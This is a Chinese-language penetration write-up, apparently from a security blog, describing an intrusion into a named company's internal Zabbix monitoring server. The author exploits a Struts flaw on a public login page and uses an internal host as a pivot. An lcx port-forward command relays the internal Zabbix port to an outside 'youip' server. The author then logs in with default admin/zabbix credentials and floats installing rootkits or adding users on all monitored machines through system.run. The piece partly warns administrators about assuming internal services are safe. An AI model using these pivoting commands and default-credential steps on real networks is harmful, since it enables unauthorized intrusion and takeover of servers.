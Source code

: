 # 当渗透遇到zabbix--小谈zabbix安全

**0x00 背景**

* * *

zabbix近几年得到了各大互联网公司的认可，其强大的功能得到了各位运维攻城狮的亲耐。 公司本身也用zabbix做监控，对其属性也有所了解。不得不说zabbix除了监控强大之外，还有一个很好的用处就是在你忘记root密码的时候，重置服务器root密码，朋友们也一致认为zabbix是一个无比强大的超级后门。 打开了一扇门，另外一扇门就会随之开启，大伙都知道zabbix有system.run模块，这是可以执行任意命令的。不过还得看agent是以什么权限启的，根据我自己的观察，大伙为了方便这个模块都会启用，而且一般情况下都会用root跑。不用root跑会有很多麻烦事情。在这样的情况下，某些时候不得不说也方便了方便黑客更好的到访,这里很多朋友都报着这样的想法，zabbix在内网，外网访问不了，即使有注入或弱口令或默认口令黑客也无法访问，下面用实例来告诉你这样的想法是错的，不管你信不信，反正我是信了。

**0x01 细节**

* * *

出场的是tom在线 漏洞源头

[http://fm.tom.com/login-share/tomlogin/login.action](http://fm.tom.com/login-share/tomlogin/login.action)struts漏洞，struts漏洞在现在看来实在太无技术含量，对于漏洞源头，就不需解释太多 在查询端口的时候，agent的10050端口会与server的通讯。（在有proxy的情况下zabbix_server不太确认） 确认zabbix_server为:172.24.162.38 一般在安装的时候会留下zabbix_agent的安装脚本，详细信息可以到脚本里面看到 ifconfig ip信息如下(这个是作为入侵到更多服务器的跳板)

```
eth2 Link encap:Ethernet HWaddr 00:18:8B:83:1B:45 
inet addr:172.24.205.15 Bcast:172.24.205.255 Mask:255.255.255.0
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:81041 errors:0 dropped:0 overruns:0 frame:0
TX packets:60 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1000 
Interrupt:16 Memory:f8000000-f8012800 

```

只有内网，首先要确认思路，在没有外网IP的情况下，用IPtables做一个nat完全不能达到我们想要的需求，因为zabbix我们需要用IEl来访问，只能先做内网的nat，然后把端口转到公网的某个服务器上去 先确认些信息

```
curl http://172.24.162.38/zabbix/ #返回的是zabbix登陆页

```

确认好上面的一些信息后，接下来做一个nat

```
0.0.0.0 98 172.24.162.38 80

```

看下效果 这里会监听98端口，意思是当有访问本地98端口的时候自动转向172.24.162.38的80端口，接下来只需要将本地的98端口转发至公网的某个服务器就可以正常访问了

端口转发我用lcx(linux版)，这破玩意会经常断，不太好用。

```
./lcx -m 3 -h1 youip -p1 786 -h2 127.0.0.1 -p2 98

```

转发好之后就可以正常访问了

```
    http://youip:port/zabbix/(这里一定要记得加后面的/zabbix/，它本身就带了这个目录)

```

![](http://drops.javaweb.org/uploads/images/3632381f3aa88aec47411c709ce8e2c88e3db7c6.jpg)这个界面是我们想要的结果

```
    login:admin/zabbix (内网的zabbix大伙往往不喜欢改密码，都认为在内网很安全)

```

![](http://drops.javaweb.org/uploads/images/740c988c34f6b82295c8cc0a29c8b1e5f14bdf7b.jpg)

图截不完，下面其实还有很多。

![](http://drops.javaweb.org/uploads/images/e9c280cb9c5829a544526df5827736a89519a2e4.jpg)

接下来，可以有邪恶的想法了。添加一个监控项，给所有机器安装一个rootkit？还是全部机器添加一个用户？不要太邪恶了，只讨论思路，这样的边界问题很容易被忽略，但是带来的后果往往也是最大的。